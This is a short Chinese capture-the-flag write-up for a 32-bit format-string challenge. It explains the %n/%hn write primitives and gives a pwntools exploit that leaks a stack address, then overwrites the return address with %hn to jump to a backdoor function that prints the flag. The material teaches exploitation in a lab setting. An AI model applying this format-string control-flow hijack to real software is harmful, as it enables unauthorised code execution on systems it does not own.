 # format level2

## 文件分析

下载`format_level2`, NX on, PIE off, Canary on, RELRO full  
ghidra分析为32位程序

## 解题思路

这次打龙不能拿到flag了，但是后门函数还在，可以考虑通过写入返回地址，
跳转到后门函数处输出flag

前置知识：  
%n -> `int_32 *`; %hn -> `int_16 *`; %hhn -> `int_8 *`  
%n只能修改输入的字符串中存在的值  
可以通过%??d来控制已打印字符的数量

查看源代码，发现后门函数地址和返回地址差2个字节，可以采用%hn  
首先talk，找到返回地址，然后再talk，将后门函数写到返回地址里实现攻击

## EXPLOIT

```python
from pwn import *
sh = remote('localhost', 42673)

# payload 1
sh.sendline(b'3') # talk with dragon
sh.sendline(b'%14$p') # leak rbp value to get ret after shifting

ret = int(sh.recvuntil(b'\nBut', True)[-10:], 16) - 0x68 + 0x4c # ignore '\nBut' to get pure addr, and shift addr to ret

# payload 2
sh.sendline(b'3') # talk with dragon
sh.sendline(p32(ret) + b'%37651d%7$hn') # ret占4，0x9317 == 37651 + 4

sh.interactive()
```

Done.
